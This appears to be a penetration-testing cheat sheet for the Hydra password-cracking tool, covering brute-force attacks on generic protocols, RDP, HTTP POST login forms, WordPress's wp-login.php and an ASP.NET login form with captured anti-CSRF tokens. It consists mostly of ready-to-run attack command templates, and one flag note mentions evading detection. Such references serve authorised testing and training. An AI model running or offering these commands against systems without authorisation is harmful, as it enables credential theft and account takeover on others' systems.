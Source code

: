 **Tool Usage**
```
hydra -P <wordlist> -v <ip> <protocol>
```

---

**Brute Force Attack trying all Passwords**
```
hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol>
```
- `-v:` Verbose mode
- `-V:` Very verbose (shows every attempt)
- `-u:` tries each username with all passwords
- `-t1:` sets one concurrent connection (useful for avoiding detection or throttling)

****

**Attack against a Protocol**
```
hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>
```
- `-f:` stops the attack as soon as a valid password is found

---
### HTTP-Form

**Brute Force Against an HTTP Login Form using a single Username and a Password**
```
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
```


**Brute Force against a WordPress Login Form, checking for a Redirect upon Success**
```
hydra -l <username> -P <password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```
- `http-form-post`: Specifies a brute-force attack against an HTTP POST form.
- `'/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`
    - `/wp-login.php`: Target login page (WordPress login form).
    - `log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1`: HTTP POST request format.
    - `S=Location`: Success condition (if response contains "Location" header, login was successful).


**ASP.NET Forms**
These forms usually use ***anti-CSRF*** mechanisms like `__VIEWSTATE` and `__EVENTVALIDATION`, and similar ***dynamic hidden fields***. These ***tokens change with each request and are required to be valid for login***. Hydra, in its default mode, sends the same ***static request for every password attempt***, so it doesn't update the tokens each time.
```
hydra -l <username> -P <password list> $ip -V http-form-post '/login.aspx?ReturnURL=/admin:__VIEWSTATE=UrqWb2RL8KZfJ91A8QYxfD60ktVv6Py1u2d6mDtcZHGE8QDoKbcA%2FsOAO3AJ6V0Cykk7WUn2FfjxH0xcS6N8IU3dK006iPXo5BH2GeElwUQpPK%2FwxfTRmJ5UbZVzX8FhKS02Db8PEfnMZpVb6np3Wf5girU2sucKJC7R%2F2CykMXeKHWC&__EVENTVALIDATION=ylQOemUDKmktcu7LCTC93iTRqzy9s80fHyH2tfu2UXas4EaglWlzYacvQluQAQflrDZm8DttbbGtEFHIIjLybaLlEsthWfdHBkVRwBkPR1rYEG2qUeVQGlziLsVcnCrimV3itOOd4DdCIUYjBj9sbZy1GEmKxy06rydTPGIGzXxVssTX&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed'
```
- `Things to Change:`
	- `/login.aspx?ReturnURL=/admin:`
	- `^PASS^`
	- `Login Failed`